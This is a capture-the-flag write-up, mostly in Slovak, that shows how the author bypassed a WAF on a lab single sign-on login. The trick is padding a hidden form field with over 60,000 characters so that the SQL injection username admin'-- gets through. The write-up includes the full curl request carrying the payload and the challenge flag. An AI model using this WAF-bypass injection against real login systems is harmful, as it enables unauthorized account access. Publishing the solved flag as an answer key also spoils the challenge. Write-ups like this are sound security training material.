



# Zadanie

Hi, emergency troubleshooter,

we are preparing a new interface for the single sign-on system, which, on the recommendation of external pentesters, is now also protected by a WAF. Test the system to ensure it is secure.

Stay grounded!

- [http://login.powergrid.tcc:8080](http://login.powergrid.tcc:8080/)

**Hints**

- A WAF was probably just added in front of the old system.

## Riešenie

Pri pokuse o navštívenie stránky som dostal presmerovanie na `http://intranet.powergrid.tcc:8080/`. Pri pingovaní som zistil, že leží na rovnakej IP ako login, takže len pridám na koniec súboru `/etc/hosts` riadok

`10.99.25.33 intranet.powergrid.tcc`.



Formulár však obsahuje aj hidden atribút

```html
<form action="index.php" method="post">
    <input type="text" name="login" placeholder="Username" required>
    <input type="password" name="password" placeholder="Password" required>
    <input type="hidden" name="padding" value="">
    <button type="submit">Sign In</button>
</form>
```

Ako prvé som skúsil login `admin'--`  a heslo `neviem` bez použitia padding parametra, ale dostal som rovno `Forbidden`. A tak som urobil som takú prasačinu, že som zmenil `type="hidden"` na `type="text"`, do políčka `hidden` som vložil vyše 60000 znakov `A`, do username som vložil `admin'--` do hesla `neviem` a prešlo 😃.



Klikol som na `SIgn In` a `et voilá`.



Tu je celý, ale trunkated, request.. 

```
curl ^"http://intranet.powergrid.tcc:8080/index.php^" ^
  -H ^"Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7^" ^
  -H ^"Accept-Language: en-US,en;q=0.9,sk-SK;q=0.8,sk;q=0.7,en-NL;q=0.6^" ^
  -H ^"Cache-Control: max-age=0^" ^
  -H ^"Connection: keep-alive^" ^
  -H ^"Content-Type: application/x-www-form-urlencoded^" ^
  -H ^"Origin: http://intranet.powergrid.tcc:8080^" ^
  -H ^"Referer: http://intranet.powergrid.tcc:8080/^" ^
  -H ^"Upgrade-Insecure-Requests: 1^" ^
  -H ^"User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/141.0.0.0 Safari/537.36^" ^
  --data-raw ^"login=admin^%^27--^&password=neviem^&padding=AAAA...AAAA^" ^
  --insecure
```

Tých znakov som tam mal niečo cez 60000.. stačí poslať, napríklad cez postmana a vybavené.

## Vlajka

    FLAG{rxRk-Dj3A-bGc0-cyHc}
